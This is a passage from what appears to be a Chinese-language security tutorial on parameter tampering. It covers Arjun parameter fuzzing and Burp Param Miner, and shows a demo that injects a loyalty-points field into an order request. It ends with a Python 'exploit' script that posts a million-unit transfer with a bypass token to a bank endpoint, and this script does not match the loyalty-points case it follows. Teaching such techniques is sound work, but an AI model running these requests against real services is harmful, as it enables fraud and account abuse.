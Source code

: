 ### 3.2 自动化漏洞探测
使用Arjun进行参数爆破：
```bash
arjun -u https://target.com/api/user --method POST --data '{"name":"test"}'
```

BurpSuite插件辅助检测：
1. 安装"Param Miner"扩展
2. 右键请求 -> Extensions -> Param Miner -> Guess params

### 3.3 分步攻击演示
**案例：电商平台积分篡改**

1. 正常请求观察：
```http
POST /api/orders HTTP/1.1
{
  "product_id": 123,
  "quantity": 2
}
```

2. 添加可疑参数：
```http
POST /api/orders HTTP/1.1
{
  "product_id": 123,
  "quantity": 2,
  "loyalty_points": 9999
}
```

3. 响应分析：
```json
{
  "status": "success",
  "balance": 9999
}
```

4. 漏洞确认后构造完整攻击链：
```python
import requests

def exploit():
    headers = {'X-API-Key': 'legitimate_key'}
    payload = {
        "user_id": 10234,
        "operation": "transfer",
        "amount": 1000000,
        "security_token": "BYPASS_ME"
    }
    r = requests.post('https://bank.com/transactions', 
                     json=payload, headers=headers)
    print(r.status_code)
```

